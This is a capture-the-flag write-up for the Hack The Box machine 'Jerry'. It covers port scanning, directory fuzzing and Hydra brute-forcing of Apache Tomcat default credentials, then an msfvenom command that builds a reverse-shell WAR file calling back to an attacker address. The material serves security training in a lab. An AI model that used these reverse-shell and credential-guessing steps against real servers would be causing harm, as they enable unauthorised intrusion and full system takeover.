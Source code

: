 # HTB - Jerry

##### Ip: 10.10.10.95
##### Name: Jerry
##### Rating: Easy

------------------------------------------------

![Jerry.png](../assets/jerry_assets/Jerry.png)

#### Enumeration

As always, lets kick things off with an Nmap scan covering all TCP ports. Because I'm not worried about traffic or the 'noise' I'm making, I'm adding the `--min-rate 10000` attribute to speed things along:

```text
┌──(ryan㉿kali)-[~/HTB/Jerry]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.95   
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-22 12:25 CDT
Nmap scan report for 10.10.10.95
Host is up (0.066s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 13.42 seconds
```

Ok interesting, looks like only one port open, which is pretty rare for a Windows machine. Let's go ahead and emumerate a bit further and port scan with the `-sC` and `-sV` flags set to enumerate versions and also throw some basic Nmap scripts at it:

![nmap_scan.png](../assets/jerry_assets/nmap_scan.png)

Looks like this is running Apache Tomcat, which usually hosts a login form in the `/manager` directory. Lets go ahead and kick off a directory fuzzing scan to see if there is anything interesting we can find:

```text
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Jerry]
└─$ gobuster dir -u http://10.10.10.95:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.95:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/04/22 12:31:07 Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
```

Great! Navigating to the /manager directory in the browser I'm met with a login prompt:

![login_page.png](../assets/jerry_assets/login_page.png)

#### Brute Forcing

Based on passed experience I know that Tomcat has a few different default passwords that are used during setup, and sometimes Administrators fail to change these credentials. Lets use Hydra to try and brute force these credentials, but rather than just using the standard rockyou.txt wordlist, in this case I'll try something more targeted to the specific service. There is a phenomenal wordlist package called SecLists available for download at https://github.com/danielmiessler/SecLists. This package contains multiple lists for directory fuzzing, wordlists for usernames and passwords, and more. Specifically of interest for us on Jerry, it also contains a list featuring default credentials for Tomcat. 

To me it always makes sense to try more targeted wordlsists first, and for a couple different reasons.

1. Just for the sake of my own time. Take a look at the wordcounts for the Tomcat Default Credentials list vs something like rockyou:

![wc_list.png](../assets/jerry_assets/wc_list.png)

Hydra can blaze through the Tomcat list n early instantly, while rockyou would take hours and hours. Starting more simple and targeted and increasing your net as needed seems like the best path here. Not to mention that highly specific credentials may not even exist at all in rockyou.

2. While not relevant on a HTB machine, throwing something like rockyou against a login page would generate a HUGE amount of network traffic and would likely be detected quickly. While brute forcing isn't stealthy by nature, the logic follows that fewer login attempts generates less traffic and noise, which is less likely to be detected.

So all that said lets kick off Hydra against the login page:

![hydra_bf.png](../assets/jerry_assets/hydra_bf.png)

Nice! Hydra has found two possible sets of credentials. The first pair of admin:admin turned out to be a false positive (Hydra is great, but not perfect after all), but the credentials tomcat:s3cret worked great. We can now login to the /manager page. From here it should be a breaze to get a working shell on the machine.

Scrolling down the page we see  there is an option to upload and deploy a .war file.

![war_upload.png](../assets/jerry_assets/war_upload.png)

This will be the ticket onto the machine. Lets go ahead and generate a reverse shell .war file using msfvenom:

#### Exploitation

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=443 -f war > rev_shell.war
```

After uploading the file and deploying it, I can see my rev_shell in the applications list. Making sure I have a netcat listener set up on port 443, I can catch a shell back by simply clicking on rev_shell, which forwards me to http://10.10.10.95:8080/rev_shell/.

Taking a look at my listener I see it worked, and I now have a shell as nt\authority system, which also means no privilege escalation needed!

![nc_shell.png](../assets/jerry_assets/nc_shell.png)

Navigating to the Administrators desktop I see that both flags are in the '2 for the price of 1.txt' file:

![both_flags.png](../assets/jerry_assets/both_flags.png)

#### Something Extra

Funnily enough, in this case, brute forcing wasn't even needed. After a failed login attempt at /manager, we are redirected to a 403: Access Denied page, which contains some 'helpful' instructions:

![access_denied.png](../assets/jerry_assets/access_denied.png)

We can see here the default (but working) credentials listed as an example. To me, it always makes sense to start simple and throw a quick admin:admin or admin:password at a login page, or to try any example credentials you find before kicking off a brute forcing or dictionary attack.

#### Key Takeaways

- As a user or administrator, make sure you always change your default credentials when setting up services. Conversely, as an attacker, it's always a good idea to try known default credentials or other easy quick wins (root:root, admin:passwd, etc), before getting too technical or trying nosiy methods like brute forcing. 

-  On a similar note, it always makes sense to try simpler, more targeted attacks before resorting to more complex and less specific attack vectors. Cast a small net at first, and increase in complexity and in scope only as needed.

- Lastly, SecLists is your friend, and very much worth downloading and exploring.

Thanks for following along!

-Ryan

---------------------------------------------------------------------------------------------
